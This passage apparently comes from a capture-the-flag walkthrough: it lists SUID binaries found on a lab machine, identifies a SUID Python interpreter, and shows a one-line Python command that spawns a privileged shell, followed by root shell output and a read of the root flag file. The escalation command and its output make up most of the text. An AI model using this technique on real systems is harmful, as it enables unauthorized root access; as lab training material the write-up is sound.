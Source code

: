 ``` bash
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
```

... who turns out to be privilieged

__A__:
```
/usr/bin/python
```
__Q__: Find a form to escalate your privileges.

```
No answer needed
```

```bash
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
# pwd
pwd
/
# ls -lh
ls -lh
total 2.1G
drwxr-xr-x   2 root root 4.0K Aug  4  2020 bin
drwxr-xr-x   3 root root 4.0K Aug  4  2020 boot
drwxr-xr-x   2 root root 4.0K Aug  4  2020 cdrom
drwxr-xr-x  15 root root 3.7K May 28 15:11 dev
drwxr-xr-x  96 root root 4.0K Aug  4  2020 etc
drwxr-xr-x   4 root root 4.0K Aug  4  2020 home
lrwxrwxrwx   1 root root   34 Aug  4  2020 initrd.img -> boot/initrd.img-4.15.0-112-generic
lrwxrwxrwx   1 root root   34 Aug  4  2020 initrd.img.old -> boot/initrd.img-4.15.0-112-generic
drwxr-xr-x  22 root root 4.0K Aug  4  2020 lib
drwxr-xr-x   2 root root 4.0K Aug  4  2020 lib64
drwx------   2 root root  16K Aug  4  2020 lost+found
drwxr-xr-x   2 root root 4.0K Feb  3  2020 media
drwxr-xr-x   2 root root 4.0K Feb  3  2020 mnt
drwxr-xr-x   2 root root 4.0K Feb  3  2020 opt
dr-xr-xr-x 112 root root    0 May 28 15:11 proc
drwx------   6 root root 4.0K Aug  4  2020 root
drwxr-xr-x  26 root root  860 May 28 15:13 run
drwxr-xr-x   2 root root  12K Aug  4  2020 sbin
drwxr-xr-x   4 root root 4.0K Aug  4  2020 snap
drwxr-xr-x   2 root root 4.0K Feb  3  2020 srv
-rw-------   1 root root 2.0G Aug  4  2020 swap.img
dr-xr-xr-x  13 root root    0 May 28 15:11 sys
drwxrwxrwt   2 root root 4.0K May 28 16:03 tmp
drwxr-xr-x  10 root root 4.0K Feb  3  2020 usr
drwxr-xr-x  14 root root 4.0K Aug  4  2020 var
lrwxrwxrwx   1 root root   31 Aug  4  2020 vmlinuz -> boot/vmlinuz-4.15.0-112-generic
lrwxrwxrwx   1 root root   31 Aug  4  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-112-generic
# cat /root/root.txt                        
cat /root/root.txt
```
